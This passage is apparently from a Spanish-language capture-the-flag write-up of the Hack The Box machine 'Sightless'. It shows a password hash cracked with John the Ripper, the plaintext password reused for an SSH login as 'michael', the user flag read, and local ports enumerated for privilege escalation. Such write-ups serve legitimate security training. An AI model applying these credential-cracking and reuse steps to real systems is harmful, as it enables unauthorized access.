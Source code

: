 ```bash
❯ john hash --show                                                              
michael:insaneclownposse:1001:1001::/home/michael:/bin/bash

1 password hash cracked, 0 left
```

Esta contraseña funciona por SSH:

```bash
❯ /usr/bin/ssh michael@sightless.htb
michael@sightless.htb's password: 
Last login: Fri Jan 10 22:39:08 2025 from 10.10.15.31
michael@sightless:~$
```

Dentro de su directorio personal podremos encontrar la primera flag:

```bash
michael@sightless:~$ ls -la
total 8704
drwxr-x--- 3 michael michael    4096 Jan 10 22:36 .
drwxr-xr-x 4 root    root       4096 May 15  2024 ..
lrwxrwxrwx 1 root    root          9 May 21  2024 .bash_history -> /dev/null
-rw-r--r-- 1 michael michael     220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 michael michael    3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 michael michael     807 Jan  6  2022 .profile
drwx------ 2 michael michael    4096 May 15  2024 .ssh
-rw-r----- 1 root    michael      33 Jan 10 20:05 user.txt
michael@sightless:~$ cat user.txt
2f97c6365d9b8cea1c14158a1f******
```

## Escalada de privilegios

Hay unos puertos que antes no podíamos ver:

```bash
michael@sightless:~$ ss -ltu
Netid         State          Recv-Q         Send-Q                 Local Address:Port                     Peer Address:Port         Process         
udp           UNCONN         0              0                      127.0.0.53%lo:domain                        0.0.0.0:*                            
udp           UNCONN         0              0                            0.0.0.0:bootpc                        0.0.0.0:*                            
tcp           LISTEN         0              4096                       127.0.0.1:3000                          0.0.0.0:*                            
tcp           LISTEN         0              70                         127.0.0.1:33060                         0.0.0.0:*                            
tcp           LISTEN         0              4096                   127.0.0.53%lo:domain                        0.0.0.0:*                            
tcp           LISTEN         0              4096                       127.0.0.1:38881                         0.0.0.0:*                            
tcp           LISTEN         0              511                        127.0.0.1:http-alt                      0.0.0.0:*                            
tcp           LISTEN         0              5                          127.0.0.1:60733                         0.0.0.0:*                            
tcp           LISTEN         0              10                         127.0.0.1:38103                         0.0.0.0:*                            
tcp           LISTEN         0              151                        127.0.0.1:mysql                         0.0.0.0:*                            
tcp           LISTEN         0              511                          0.0.0.0:http                          0.0.0.0:*                            
tcp           LISTEN         0              128                          0.0.0.0:ssh                           0.0.0.0:*                            
tcp           LISTEN         0              128                             [::]:ssh                              [::]:*                            
```